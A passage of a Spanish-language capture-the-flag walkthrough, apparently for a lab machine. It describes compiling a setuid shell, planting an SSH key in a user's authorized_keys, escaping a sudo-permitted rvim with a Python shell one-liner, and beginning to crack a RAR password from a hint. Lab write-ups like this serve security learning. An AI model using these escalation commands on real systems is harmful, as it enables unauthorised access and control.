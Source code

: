 Lo compilamos con `gcc shell.c -o shell`, luego `chmod 4755 shell` y ahora al ejecutarlo desde la maquina deberianmos ser **Frank**. Si esto no funciona al ejecutarlo, podemos hacerlo desde un contenedor creado y gestionado con **Docker**:
```
# docker run -it --rm ubuntu:latest bash
```

Y desde aqui hacemos lo siguiente.

---------------
#### Abusing sudoers privilege (rvim command)
Una vez como **Frank** podemos meter nuestra **id_rsa.pub** dentro de su **Authorized_keys** para iniciar sesión con **SSH** sin contraseña y estar en una **SHELL** más comoda.
Probablemente nos vaya a dar error al conectarnos por **SSH**, asi que tendriamos que cambiar el algoritmo y generar un **id_rsa.pub** con otro formato:
```
# ssh-keygen -t ecdsa -b 521
```

Y la metemos en el **Authorized_keys** y ahora si tendriamos que poder.

Listando nuestro privilegio a nivel de sudoers vemos uno nuevo:
```
[frank@localhost ~]$ sudo -l
Matching Defaults entries for frank on this host:
    !visiblepw, always_set_home, env_reset, env_keep="COLORS DISPLAY HOSTNAME HISTSIZE KDEDIR LS_COLORS", env_keep+="MAIL PS1
    PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE", env_keep+="LC_COLLATE LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES",
    env_keep+="LC_MONETARY LC_NAME LC_NUMERIC LC_PAPER LC_TELEPHONE", env_keep+="LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET
    XAUTHORITY", secure_path=/sbin\:/bin\:/usr/sbin\:/usr/bin

User frank may run the following commands on this host:
    (frank) NOPASSWD: /opt/logreader/logreader.sh
	(adm) NOPASSWD: /usr/bin/rvim /var/www/html/jailuser/dev/jail.c
```

Bien, sabemos que si entramos al editor **VIM** y ejecutamos algun comando desde ahi, lo estariamos ejecutando como el usuario **adm**. Pues bien, [GTFobins](https://gtfobins.github.io/gtfobins/rvim/) tiene contemplada una forma de spawnear una shell:
```
:py import os; os.execl("/bin/sh", "sh", "-c", "reset; exec sh")
```

-------------------
#### Cracking RAR file  
Dentro de nuestro directorio personal, vemos una carpeta de nombre **.keys** dentro, vemos algunas cosas:
![[Pasted image 20230804045703.png]]

En la nota que le dejo **Administrator** a **Frank** nos dan un **Hint** de como seria la **Password** de **Frank**:
```
Note from Administrator:
Frank, for the last time, your password for anything encrypted must be your last name followed by a 4 digit number and a symbol.
```
